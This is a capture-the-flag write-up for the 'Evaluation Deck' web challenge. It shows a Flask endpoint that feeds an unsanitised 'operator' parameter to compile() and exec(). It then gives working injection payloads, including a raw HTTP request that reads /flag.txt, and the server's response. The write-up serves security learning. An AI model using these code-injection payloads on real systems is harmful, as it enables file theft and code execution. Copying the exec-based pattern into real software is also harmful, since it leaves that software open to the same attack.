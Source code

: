 # Evaluation Deck

Difficulty:: #easy

## Introduction
The box is a flask web app who has an endpoint done for perform a matematical operation. But  one of the parameters is vulnerable to **code injection**. So you can inject python code, in this case to retrieve the flag.


## Target data
- `Spawn Docker`: `167.71.135.137:32648` 
- `Source Code`: `web_evaluation_deck.zip`

## Challenge Description
*A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?*

## Enumeration

```
http://167.71.135.137:32648/
```

![1-index.png](1-index.png)

First download the source code and identify a flask app, with two  [`blueprints`](https://flask.palletsprojects.com/en/2.2.x/api/#flask.Blueprint) (that is a way to organize the endpoints), group them according to how ther functions are related. So here all endpoinst will be in `web_evaluation_deck/challenge/application/blueprints/routes.py`.

```shell
magor$ tree web_evaluation_deck
web_evaluation_deck
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   ├── ...SNIP...
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
└── flag.txt
```
 
There are two collections of endpoints. One to the `web` app, and other to the `api`. 
The interesting one is the `/api/get_health` endpoint:
```python
# web_evaluation_deck/challenge/application/blueprints/routes.py
# ...SNIP...
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
 ➊  if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
      ➋ code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
      ➌ exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The post requests must contain the `current_health`, `attack_power` and `operator` ➊ and the interseting part is that use the built-in function [`compile`](https://docs.python.org/3/library/functions.html#compile) ➋ and [`exec`](https://docs.python.org/3/library/functions.html#exec)➌. In summary, we can execute python code that was compile. and we controle the 3 inputs , althought the `current_healt` and `attack_power` are wrapped with the `int()` function, so only numbers can be there. But, `operator` can be anything we want, it has not sanitazing. And consider that we can execute multiples python lines using `;` I can make the payload:

```python
# ideal operator parameter
result = 6 + 7

# injected code in operator parameter
result = 6 ; result = 'testing' # 7
```

>The `;`  to indicate a new line and  the `#`  to comment are the core to inject new code. To have returned value, its necesary stored the data inside `result`.


## Foothold

To test it, we can use the [Burpsuit communiti edition]() proxy to intercept the post request when click a card.  and send it to the Burpsuit repeater to play with it. First that all I check the normal function.

![1-burpsuit-normal.png](./static/1-burpsuit-normal.png)

Now write the payload `; result = 'testing' #` in `operator` key and look that now return `testing`:

![1-burpsuit-test.png](./static/1-burpsuit-test.png)

And now, I only have to check the `DockerFile` to identify that the flag file is stored in `/flag.txt`, so the payload to read the file would be:

```json
"operator": "; result = open('/flag.txt').read() #"
```

```http
POST /api/get_health HTTP/1.1
Host: 167.71.135.137:32648
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://167.71.135.137:32648/
Content-Type: application/json
Content-Length: 104
Origin: http://167.71.135.137:32648
DNT: 1
Connection: close
Sec-GPC: 1

{"current_health":"100","attack_power":"22","operator":"+ 5 ; result = open('/flag.txt', 'r').read() #"}
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 13:27:03 GMT
Content-Type: application/json
Content-Length: 47
Connection: close

{"message":"HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxx}"}
```

![1-burpsuit-attack.png](./static/1-burpsuit-attack.png)
